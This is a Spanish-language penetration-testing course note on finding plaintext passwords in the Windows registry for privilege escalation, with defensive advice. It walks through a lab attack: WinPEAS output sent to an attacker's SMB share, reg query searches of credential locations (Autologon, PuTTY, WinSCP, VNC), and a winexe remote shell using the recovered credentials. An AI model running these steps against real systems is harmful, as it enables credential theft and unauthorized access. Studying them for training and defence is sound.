






> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Contraseñas en el Registro

# 🔑 Contraseñas en el Registro de Windows

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### 🔐 Escalado de Privilegios con Contraseñas

 

El escalado de privilegios mediante contraseñas es una técnica en la cual un atacante intenta obtener privilegios más altos en un sistema comprometido al obtener o crackear contraseñas de usuarios con privilegios inferiores. Esto les permite acceder a recursos restringidos y realizar acciones que normalmente no estarían permitidas.

 

### 🎯 Métodos de Obtención de Contraseñas

 

Algunos métodos para elevar privilegios a través de contraseñas son:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Ataque con Contraseñas:
> 

> 

> 
> * 
> **Uso de contraseñas débiles o predecibles:** Los atacantes pueden intentar adivinar contraseñas débiles o predecibles que hayan sido configuradas por los usuarios o que estén presentes en listas comunes de contraseñas utilizadas. Esto se conoce como "ataque de fuerza bruta" o "ataque de diccionario". Los atacantes prueban múltiples combinaciones de contraseñas hasta encontrar una que funcione.
> 
 
> * 
> **Ataques de reutilización de contraseñas:** Muchos usuarios tienden a utilizar la misma contraseña para múltiples servicios o cuentas. Si un atacante obtiene acceso a una contraseña de usuario en un servicio o aplicación, puede intentar utilizar esa misma contraseña en otros servicios o en la cuenta de administrador del sistema para lograr un escalado de privilegios.
> 
 
> * 
> **Explotación de vulnerabilidades de hashing o almacenamiento de contraseñas:** Si un sistema almacena contraseñas en un formato inseguro o utiliza algoritmos de hashing débiles, los atacantes pueden intentar extraer las contraseñas directamente del sistema comprometido. Esto puede involucrar el uso de técnicas como ataques de inyección de SQL o aprovechar vulnerabilidades específicas en el sistema o en las aplicaciones que manejan las contraseñas.
> 
 
> * 
> **Uso de técnicas de robo de contraseñas:** Los atacantes también pueden utilizar malware, como keyloggers o spyware, para robar contraseñas mientras los usuarios las ingresan en sus sistemas. Estas técnicas capturan las pulsaciones de teclado o monitorean las actividades del usuario, obteniendo así las contraseñas que luego se utilizan para el escalado de privilegios.
> 

> 

 

### 🛡️ Medidas de Protección

 

Para protegerse contra el escalado de privilegios basado en contraseñas, se recomiendan las siguientes medidas de seguridad:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Utilizar contraseñas seguras y únicas para cada cuenta o servicio. Las contraseñas deben ser lo suficientemente complejas, incluyendo combinaciones de letras, números y caracteres especiales, y no deben ser fáciles de adivinar o encontrar en listas comunes de contraseñas.
> 
> * Implementar autenticación multifactor (MFA) siempre que sea posible. La autenticación multifactor agrega una capa adicional de seguridad al requerir una segunda forma de verificación, como un código generado en una aplicación móvil o un mensaje enviado al teléfono del usuario, además de la contraseña.
> 
> * Mantener los sistemas y aplicaciones actualizados con los últimos parches y actualizaciones de seguridad para mitigar vulnerabilidades conocidas.
> 
> * Utilizar soluciones de seguridad, como antivirus, firewalls y sistemas de detección de intrusos, para detectar y prevenir ataques de robo de contraseñas o malware.
> 
> * Educar a los usuarios sobre las mejores prácticas de seguridad, como no utilizar contraseñas fáciles de adivinar ni reutilizarlas en múltiples servicios.
> 

> 

 

 
 

## 🔍 Descubriendo Contraseñas en el Registro

 

### 🛠️ Paso 1: Ejecutar WinPEAS

 

Vamos a usar **WinPEAS** para ver si encontramos contraseñas en el registro.

 



 

### 📤 Paso 2: Enviar Resultados a Kali por SMB

 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 

**En Kali:**
 

```bash
$ impacket-smbserver info. -smb2support
```

 

**En Windows:**
 

```cmd
C:\> winPEASany.exe quiet filesinfo userinfo >> \\10.0.0.5\info\winpeas_Passwords.txt
```

 



 

> [!note]
> 
 
> #### 💡 ¿Por qué hay Contraseñas en el Registro?
> 
 
> El registro de Windows puede contener contraseñas en texto plano o codificadas en diversas ubicaciones:
> 

> 
> * **Sesiones de aplicaciones:** Programas como PuTTY, WinSCP, FileZilla almacenan credenciales
> 
> * **Autologon:** Credenciales para inicio de sesión automático
> 
> * **VPN/RDP:** Configuraciones de conexiones remotas
> 
> * **Servicios:** Contraseñas de cuentas de servicio
> 
> * **SNMP:** Community strings (contraseñas SNMP)
> 

> 
> Muchas aplicaciones almacenan estas credenciales de forma insegura, permitiendo su recuperación.
> 

 

### 📊 Paso 3: Analizar los Resultados

 

Vemos el documento txt que hemos recibido y observamos directamente algunas credenciales.

 

#### 🔑 Sesión del Software PuTTY

 



 

> [!warning]
> 
 
> **⚠️ PuTTY Sessions:**
> 
> PuTTY almacena configuraciones de sesiones SSH/Telnet en el registro, incluyendo nombres de usuario y, en algunos casos, contraseñas o claves privadas.
> 
> **Ubicación:** `HKCU\Software\SimonTatham\PuTTY\Sessions`
> 

 

#### 🔐 Credenciales de Inicio Automático (Autologon)

 



 

> [!tip]
> 
 
> #### 🔍 Autologon - Inicio de Sesión Automático:
> 
 
> Windows puede configurarse para que un usuario inicie sesión automáticamente sin introducir contraseña. Las credenciales se almacenan en:
> 
> ```
> HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
> ```
> 
 
> **Valores importantes:**
> 

> 
> * `DefaultUserName` - Nombre de usuario
> 
> * `DefaultPassword` - Contraseña en texto plano
> 
> * `AutoAdminLogon` - Si está habilitado (1)
> 

> 

 

### 📋 Paso 4: Búsqueda Manual en el Registro

 

Manualmente podemos buscar credenciales en el registro:

 

#### 🖥️ Local Machine (HKLM)

 


 

```cmd
C:\> reg query HKLM /f password /t REG_SZ /s
```

 

#### 👤 Current User (HKCU)

 



 

```cmd
C:\> reg query HKCU /f password /t REG_SZ /s
```

 

#### 🔑 Credenciales de Inicio de Sesión Automático

 



 

```cmd
C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

 

> [!note]
> 
 
> #### 🔧 Parámetros del Comando reg query:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `reg query`
> 
> 
> 
> `HKLM / HKCU`
> 
> 
> 
> `/f password`
> 
> 
> 
> `/t REG_SZ`
> 
> 
> 
> `/s`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Comando para consultar el registro |
> | | Clave raíz a buscar (Local Machine / Current User) |
> | | Filtrar por la palabra "password" |
> | | Tipo de dato: cadena de texto |
> | | Búsqueda recursiva en todas las subclaves |
> 
 

 

 
 

## 💥 Explotando las Credenciales Encontradas

 

### 🔗 Paso 1: Conectarse con winexe desde Kali

 

Esta vez nos conectamos desde Kali directamente usando esas credenciales y con la herramienta **winexe**:

 


 

```bash
$ winexe -U 'admin%password123' //10.0.0.200 cmd.exe
```

 

> [!note]
> 
 
> #### 🔧 Parámetros de winexe:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `winexe`
> 
> 
> 
> `-U 'usuario%contraseña'`
> 
> 
> 
> `//IP`
> 
> 
> 
> `cmd.exe`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Herramienta para ejecutar comandos remotos en Windows desde Linux |
> | | Credenciales de autenticación (formato: usuario%password) |
> | | Dirección IP del sistema Windows objetivo |
> | | Comando a ejecutar remotamente (shell de Windows) |
> 
 

 


 

### ✅ Paso 2: Verificar Acceso y Privilegios

 


 

```cmd
C:\> whoami
C:\> whoami /priv
```

 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Hemos obtenido acceso remoto al sistema Windows utilizando credenciales encontradas en el registro.
> 
> **Los privilegios obtenidos dependerán del usuario cuyas credenciales encontramos:**
> 

> 
> * Si es un usuario administrador → Privilegios administrativos completos
> 
> * Si es un usuario estándar → Privilegios limitados (podemos buscar otras técnicas de escalada)
> 

> 
> **Ventajas de winexe:**
> 

> 
> * No requiere instalar nada en el sistema objetivo
> 
> * Utiliza SMB/RPC (puertos comunes: 445, 135)
> 
> * Permite ejecutar comandos de forma interactiva
> 
> * Similar a psexec de Sysinternals
> 

> 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ El registro de Windows puede contener contraseñas en texto plano
> 
> * ✅ WinPEAS busca automáticamente credenciales en el registro
> 
> * ✅ Podemos buscar manualmente con `reg query /f password`
> 
> * ✅ Ubicaciones comunes: PuTTY, Autologon, VPN, servicios
> 
> * ✅ Las credenciales de Autologon están en Winlogon
> 
> * ✅ winexe permite conectarse remotamente con credenciales
> 
> * ✅ Los privilegios obtenidos dependen del usuario encontrado
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **WinPEAS/reg query** → 
> **Buscar credenciales en registro** → 
> **Identificar usuario y contraseña** → 
> **Conectar con winexe** → 
> **Acceso remoto con privilegios del usuario**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **Registro de Windows**
> 
> 
> 
> **Autologon**
> 
> 
> 
> **PuTTY Sessions**
> 
> 
> 
> **winexe**
> 
> 
> 
> **reg query**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Base de datos jerárquica con configuración del sistema |
> | | Inicio de sesión automático con credenciales almacenadas |
> | | Configuraciones de sesiones SSH/Telnet de PuTTY |
> | | Herramienta Linux para ejecutar comandos remotos en Windows |
> | | Comando para consultar el registro de Windows |
> 

> 
> ### 📂 Ubicaciones Comunes de Credenciales:
> 
 

> [!note]
> 
 
> ```bash
> # Autologon (inicio automático)
> HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
> 
# PuTTY Sessions
> HKCU\Software\SimonTatham\PuTTY\Sessions
> 
# WinSCP
> HKCU\Software\Martin Prikryl\WinSCP 2\Sessions
> 
# SNMP Parameters
> HKLM\SYSTEM\Current\ControlSet\Services\SNMP
> 
# VNC
> HKCU\Software\ORL\WinVNC3\Password
> 
# Búsqueda genérica de passwords
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s
> ```
> 
 

> 
 
> ### 🎯 Navegación:
> 
 
> ← Práctica 04-02: Registro - AlwaysInstallElevated
> 
> → Práctica 05-02: Contraseñas - Almacenadas
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
